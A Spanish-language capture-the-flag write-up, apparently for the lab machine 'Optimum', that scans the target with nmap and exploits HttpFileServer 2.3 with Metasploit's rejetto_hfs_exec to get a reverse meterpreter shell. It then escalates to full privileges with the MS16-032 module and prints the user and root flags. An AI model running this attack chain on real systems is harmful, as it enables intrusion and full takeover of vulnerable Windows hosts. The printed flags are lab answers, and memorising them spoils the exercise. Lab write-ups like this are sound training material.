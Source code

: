 
![[20250721114950.png]](optimum-images/20250721114950.png)

# Fase de reconocimiento


primero vamos a lanzar un escaneo de puertos sencillo con nmap 

```bash
nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 10.129.180.214 -oG allPorts
```

una vez tenemos los puertos abiertos realizamos un segundo escaneo de nmap. En este caso lanzando scripts básicos para saber el servicio y la versión que corren por detras de cada puerto

```bash
nmap -p80 -sCV 10.129.180.214 -oN targeted
```

![[20250722094155.png]]

Aqui vemos el puerto 80 con servicio http y versión HttpFileServer httpd 2.3

# Metasploit 

abrimos la consola de metasploit

```bash
msfdb run
```

buscamos exploits derivados del servicio HttpFileServer

```bash
search HttpFileServer
```

![[20250722094422.png]]
Os dejo por aqui el exploit
```bash
exploit/windows/http/rejetto_hfs_exec
```

podemos activarlo poniendo 

```bash
use 0
```

ya que es el Id del exploit en la busqueda o

```bash
use exploit/windows/http/rejetto_hfs_exec
```

de esta forma llamamos directamente al exploit

en las opciones que veremos con el comando `options`

debemos cambiar los siguientes parámetros:

- RHOSTS - IP VICTIMA
- LHOST - NUESTRA IP
- LPORT - EL PUERTO QUE RECIBIRA LA SHELL EN NUESTRO EQUIPO 
		-(cambiar este parámetro es opcional pero hay veces que el puerto 4444 esta bloqueado en la ip victima por que es el que usa por defecto metasploit por lo que en ocasiones es recomendable cambiarlo)

>Para cambiar un parámetro usaremos siempre el comando

```bash
set PARAMETRO DATA
```

Por ejemplo:

```bash
set RHOSTS 10.129.180.214
```

una vez hemos cambiado todos los parámetros necesarios lanzamos el exploit

```bash
exploit
```

![[20250722095036.png]]

recibiremos una shell como meterpreter pero como empieza a ser costumbre ya no tendremos acceso a la carpeta administrador ni a muchas partes del sistema por lo que debemos conseguir esa escalada de privilegios

# Escalada de privilegios

lanzaremos este código que hará un escáner de vulnerabilidades interno en la maquina victima

```bash
run post/multi/recon/local_exploit_suggester
```

![[20250722095308.png]]

aqui nos recomendara varios exploits para realizar la escalada

ahora dejaremos la terminal de meterpreter suspendida para reutilizarla con el nuevo exploit

```bash
background
```

en mi caso utilizare el exploit:
> exploit/windows/local/ms16_032_secondary_logon_handle_privesc

```bash
use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
```

una vez activo volvemos a poner el comando `options`  para ver que parámetros podemos cambiar, en este caso:

- SESSION - El NUMERO DE SESION DE METERPRETER QUE TENEMOS SUSPENDIDA 
	- podemos ver las sesiones poniendo el comando `sessions` (si habéis seguido los pasos del writeup será la 1) 
- LHOSTS - NUESTRA IP
- LPORT - PUERTO DONDE RECIBIREMOS LA SHELL

y lanzamos el exploit 

```bash
exploit
```

![[20250722095833.png]]

obtenemos la shell como meterpreter y ahora si con total privilegio

# Flags

## user

la flag se encuentra en el directorio: C:\Users\kostas\Desktop

![[20250722095957.png]]

user: 4ba9776b13b088debe39c37a2921a97e

## root

la flag se encuentra en el directorio: C:\Users\Administrator\Desktop

![[20250722100055.png]]

root: 828d9f5bc4d29e410f6425e17a9a2693
